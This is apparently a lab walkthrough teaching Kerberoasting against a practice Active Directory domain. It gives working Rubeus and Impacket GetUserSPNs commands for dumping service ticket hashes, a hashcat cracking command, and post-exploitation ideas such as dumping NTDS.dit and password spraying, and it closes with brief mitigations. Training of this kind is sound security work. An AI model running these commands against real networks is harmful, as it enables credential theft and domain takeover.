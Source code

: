# Kerberoasting w/ Rubeus & Impacket

In this task we'll be covering one of the most popular Kerberos attacks - Kerberoasting. Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.\
In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.\
I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.\


### Method 1 - Rubeus

\


### Kerberoasting w/ Rubeus -&#x20;

1.) `cd Downloads` - navigate to the directory Rubeus is in\
2.) `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users    \


<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

\
copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat\
I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt) \
3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### Method 2 - Impacket

\


### Impacket Installation -&#x20;

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20\
1.) `cd /opt` navigate to your preferred directory to save tools in \
2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19)\
3.) `cd Impacket-0.9.19` navigate to the impacket directory\
4.) `pip install .` - this will install all needed dependencies

### Kerberoasting w/ Impacket -&#x20;

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located\
2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.215.150 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.\
3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

### Mitigation - Defending the Forest



### Kerberoasting Mitigation -

•  Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective\
•  Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
